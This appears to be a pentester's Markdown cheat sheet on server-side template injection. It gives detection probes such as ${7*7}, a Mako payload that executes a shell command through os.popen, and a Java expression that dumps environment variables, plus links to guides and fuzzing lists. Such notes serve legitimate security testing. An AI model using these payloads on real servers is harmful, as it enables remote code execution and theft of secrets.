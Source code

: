 # Template Injection

```bash
${7*7}
#{7*7}
*{7*7}
${7*7}
~{7*7}
@{7*7}

```


###### notes:
- characters to find possible template injection `${{<%[%'"}}%\`
- use operator `*` instead of `+` because it might be treated as normal text and give false negative
- simple methodology to detect template engine 
![[Template-Injection-Technique.png]]
- rce in Mako template
```python
<% import os x=os.popen('id').read() %> ${x}
```
- extract all variables in java-based template
```java
${T(java.lang.System).getenv()}
```
- if no rce possible,try exploiting methods to perform arbitrary actions
- guide for [template injection](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti) techniques
- fuzzing list [PayloadAllTheThings](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-expression.txt)